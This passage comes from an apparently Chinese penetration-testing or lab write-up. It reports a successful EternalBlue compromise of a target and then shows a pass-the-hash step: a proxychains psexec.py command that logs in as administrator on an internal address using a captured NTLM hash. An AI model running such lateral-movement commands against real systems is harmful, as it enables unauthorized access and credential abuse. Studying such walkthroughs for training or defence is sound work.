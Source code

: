 [![](assets/1709193375-3436736c3f167070f25912f1d3886493.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204847-8c722746-d56e-1.png)

永恒之蓝靶标渗透成功

[![](assets/1709193375-714de143909bd4e401ddc6aebc3b8bed.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204852-8f89b322-d56e-1.png)

### hash 攻击永恒之蓝

这里需要多打几次，获取系统 hash 进行攻击

```bash
proxychains psexec.py administrator@172.22.15.24 -hashes ':0e52d03e9b939997401466a0ec5a9cbc' -codec gbk
```
